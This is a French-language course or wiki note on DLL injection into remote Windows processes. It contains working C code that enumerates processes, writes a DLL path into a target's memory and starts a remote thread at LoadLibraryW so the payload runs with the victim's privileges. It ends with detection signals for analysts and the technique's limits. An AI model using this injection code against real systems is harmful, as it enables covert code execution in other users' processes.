

# Injection de DLL

L'injection de DLL est la transposition distante de l'[[Exécution locale de payload]] par DLL : au lieu de charger le module dans son propre processus, on le fait charger par un processus cible. Le principe est élégant — on n'exécute jamais de code nous-mêmes, on demande au processus légitime d'appeler `LoadLibraryW` à notre place. Le payload s'exécute alors dans le contexte de la victime, avec ses privilèges et son identité.



## Énumérer les processus cibles

Avant d'injecter, il faut un PID et un handle. L'énumération s'appuie sur la série `Toolhelp32`, détaillée dans [[Énumération des processus]] et [[Processus Windows]].

| API | Rôle |
|---|---|
| `CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)` | Capture instantanée de la liste des processus |
| `Process32First` / `Process32Next` (boucle `do-while`) | Remplit une structure `PROCESSENTRY32` pour chaque processus |
| `OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID)` | Ouvre un handle donnant tous les droits sur la cible |
| `CloseHandle` | Libère le handle du snapshot |

Les membres utiles de `PROCESSENTRY32` sont `th32ProcessID` (le PID) et `szExeFile` (le nom de l'exécutable).

```c
PROCESSENTRY32 Proc = { .dwSize = sizeof(PROCESSENTRY32) };   // dwSize DOIT être initialisé

HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (!Process32First(hSnapShot, &Proc)) goto _EndOfFunction;

do {
    if (wcscmp(Proc.szExeFile, szProcessName) == 0) {
        *dwProcessId = Proc.th32ProcessID;
        *hProcess    = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
        break;
    }
} while (Process32Next(hSnapShot, &Proc));
```

> [!important] Comparaison sensible à la casse
> `wcscmp` distingue `Process1.exe` de `process1.exe`, ce qui produit des échecs silencieux. La correction consiste à recopier `Proc.szExeFile` dans un tampon en abaissant chaque caractère (`tolower`), puis à comparer ce tampon à un nom cible toujours fourni en minuscules. Le tampon est préalablement nettoyé avec `RtlSecureZeroMemory`.

## Mapper la DLL dans la cible

Le cœur de la technique tient dans un raisonnement simple : une DLL déjà chargée dans plusieurs processus y occupe la **même adresse virtuelle** (les bases des modules système sont partagées grâce au mécanisme de mapping d'images). L'adresse de `LoadLibraryW` dans `kernel32.dll` est donc identique chez l'injecteur et chez la cible. Il devient possible de demander à un thread distant de commencer son exécution à cette adresse, en lui passant le chemin de notre DLL comme argument.

| API | Rôle | Remarque |
|---|---|---|
| `GetModuleHandle(L"kernel32.dll")` | Récupère la base de `kernel32` | `LoadLibraryW` y est exportée |
| `GetProcAddress(..., "LoadLibraryW")` | Obtient l'adresse de la fonction | Sert de point d'entrée au thread distant |
| `VirtualAllocEx` | Alloue dans la cible | `MEM_COMMIT \| MEM_RESERVE`, `PAGE_READWRITE` |
| `WriteProcessMemory` | Écrit le chemin de la DLL | Taille = `lstrlenW(DllName) * sizeof(WCHAR)` |
| `CreateRemoteThread` | Crée le thread distant | `lpStartAddress = pLoadLibraryW`, `lpParameter = pAddress` |

```c
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {

    LPVOID pLoadLibraryW = NULL;
    LPVOID pAddress      = NULL;
    HANDLE hThread       = NULL;
    SIZE_T lpNumberOfBytesWritten = 0;
    DWORD  dwSizeToWrite          = lstrlenW(DllName) * sizeof(WCHAR);

    // Adresse de LoadLibraryW : identique dans le processus local et dans la cible
    pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
    if (pLoadLibraryW == NULL) return FALSE;

    // Buffer distant destiné à contenir le chemin de la DLL
    pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == NULL) return FALSE;

    if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten)
        || lpNumberOfBytesWritten != dwSizeToWrite)
        return FALSE;

    // Le thread distant exécute LoadLibraryW(pAddress) : la DLL se mappe dans la cible
    hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
    if (hThread == NULL) return FALSE;

    CloseHandle(hThread);
    return TRUE;
}
```

La structure de `CreateRemoteThread` est celle de `CreateThread`, à l'exception du premier paramètre qui ajoute le handle du processus hôte. Une fois le thread lancé, `LoadLibraryW` traite le chemin, mappe l'image, résout les imports et exécute `DllMain` — tout le payload s'exécute donc naturellement, sans injection de code brut.

## Vérification côté analyste

- Dans Process Hacker, l'onglet **Modules** de la cible doit faire apparaître la DLL injectée.
- L'onglet **Threads** montre un thread dont la fonction d'entrée est `LoadLibraryW` dans `kernel32.dll` — une combinaison anormale, car les threads applicatifs ont normalement une entrée dans le module qui les a créés.
- Les télémétries EDR couvrent les appels clés : `OpenProcess` avec `PROCESS_ALL_ACCESS` depuis un processus non signé, `WriteProcessMemory` vers un processus tiers, `CreateRemoteThread` avec une entrée située dans `kernel32`. Chaque étape est un signal exploitable (voir [[Mécanismes de détection]]).

> [!note] Limites de la technique
> L'injection de DLL exige qu'un fichier soit écrit sur disque : c'est un artefact persistant, scannable par l'antivirus et traçable par sa réputation. L'absence de contrôle sur l'argument impose aussi que la DLL soit déjà présente et lisible par la cible. Ces limites expliquent le recours à des variantes plus furtives : [[Injection de shellcode]], [[Injection par mapping]] ou [[Function stomping]].

Le module [[Dynamic-Link Library]] décrit la construction du module à injecter, et la [[Politique de blocage des DLL]] constitue une défense directe contre ce vecteur.
